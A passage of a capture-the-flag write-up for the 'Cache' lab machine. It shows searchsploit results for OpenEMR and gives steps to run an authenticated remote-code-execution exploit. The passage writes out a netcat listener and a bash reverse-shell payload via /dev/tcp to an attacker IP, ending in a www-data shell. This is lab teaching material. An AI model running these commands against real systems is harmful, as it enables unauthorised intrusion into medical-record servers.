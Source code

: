 ~~~
OpenEMR 4.1.1 Patch 14 - Multiple Vulnerabilities                                   | php/webapps/28329.txt
OpenEMR 4.1.1 Patch 14 - SQL Injection / Privilege Escalation / Remote Code Executi | php/remote/28408.rb
OpenEMR 4.1.2(7) - Multiple SQL Injections                                          | php/webapps/35518.txt
OpenEMR 5.0.0 - OS Command Injection / Cross-Site Scripting                         | php/webapps/43232.txt
OpenEMR 5.0.1 - 'controller' Remote Code Execution                                  | php/webapps/48623.txt
OpenEMR 5.0.1 - Remote Code Execution                                               | php/webapps/48515.py
OpenEMR 5.0.1.3 - (Authenticated) Arbitrary File Actions                            | linux/webapps/45202.txt
OpenEMR < 5.0.1 - (Authenticated) Remote Code Execution                             | php/webapps/45161.py
OpenEMR Electronic Medical Record Software 3.2 - Multiple Vulnerabilities           | php/webapps/14011.txt
Openemr-4.1.0 - SQL Injection                                                       | php/webapps/17998.txt
------------------------------------------------------------------------------------ ---------------------------------
Shellcodes: No Results
~~~

Save the exploit and rename it `openemr_rce.py`. Now, start a listener (`rlwrap nc -nlvp 4444`) and run the exploit: 

~~~
kali@kali:/data/Cache/files$ python openemr_rce.py http://hms.htb -u openemr_admin -p xxxxxx -c 'bash -i >& /dev/tcp/10.10.14.142/4444 0>&1'
 .---.  ,---.  ,---.  .-. .-.,---.          ,---.    
/ .-. ) | .-.\ | .-'  |  \| || .-'  |\    /|| .-.\   
| | |(_)| |-' )| `-.  |   | || `-.  |(\  / || `-'/   
| | | | | |--' | .-'  | |\  || .-'  (_)\/  ||   (    
\ `-' / | |    |  `--.| | |)||  `--.| \  / || |\ \   
 )---'  /(     /( __.'/(  (_)/( __.'| |\/| ||_| \)\  
(_)    (__)   (__)   (__)   (__)    '-'  '-'    (__) 
                                                       
   ={   P R O J E C T    I N S E C U R I T Y   }=    
                                                       
         Twitter : @Insecurity                       
         Site    : insecurity.sh                     

[$] Authenticating with openemr_admin:xxxxxx
[$] Injecting payload
~~~

A reverse shell is now available in the listener:

~~~
kali@kali:/data/Cache/files$ rlwrap nc -nlvp 4444
listening on [any] 4444 ...
connect to [10.10.14.142] from (UNKNOWN) [10.10.10.188] 47376
bash: cannot set terminal process group (1617): Inappropriate ioctl for device
bash: no job control in this shell
www-data@cache:/var/www/hms.htb/public_html/interface/main$ id
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
~~~
